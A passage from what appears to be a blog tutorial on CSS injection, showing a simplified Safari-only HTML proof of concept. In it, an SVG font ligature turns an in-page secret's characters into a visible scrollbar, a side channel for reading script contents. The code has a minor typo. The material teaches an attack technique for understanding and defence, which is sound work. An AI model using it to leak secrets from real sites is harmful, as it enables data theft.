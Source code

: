 Here, I will simply make a demo that is simplified to the extreme to prove that this is feasible. To simplify, someone has made a Safari version of the demo, because Safari supports SVG fonts, so there is no need to generate fonts from the server. The original article is here: [Data Exfiltration via CSS + SVG Font - PoC (Safari only)](https://github.com/masatokinugawa/css-exfiltration-svg-font/)

Simple demo:

``` html
<!DOCTYPE html>
<html lang="en">
<body>
  <script>
    var secret = "abc123"
  </script>
  <hr>
  <script>
    var secret2 = "cba321"
  </script>
  <svg>
    <defs>
    <font horiz-adv-x="0">
      <font-face font-family="hack" units-per-em="1000" />
        <glyph unicode='"a' horiz-adv-x="99999" d="M1 0z"/>
      </font>
    </defs>
  </svg>
  <style>
    script {
      display: block;
      font-family:"hack";
      white-space:n owrap;
      overflow-x: auto;
      width: 500px;
      background:lightblue;
    }

    script::-webkit-scrollbar {
      background: blue;
    }

  </style>
</body>
</html>
```

I put two pieces of JS in the script, the contents of which are `var secret = "abc123"` and `var secret2 = "cba321"`, and then use CSS to load the font I prepared. As long as there is a ligature of `"a`, the width will become ultra-wide.

Next, if the scrollbar appears, I set the background to blue, which is more conspicuous. The final result is as follows:

![scroll](/img/css-injection-2/p4.png)
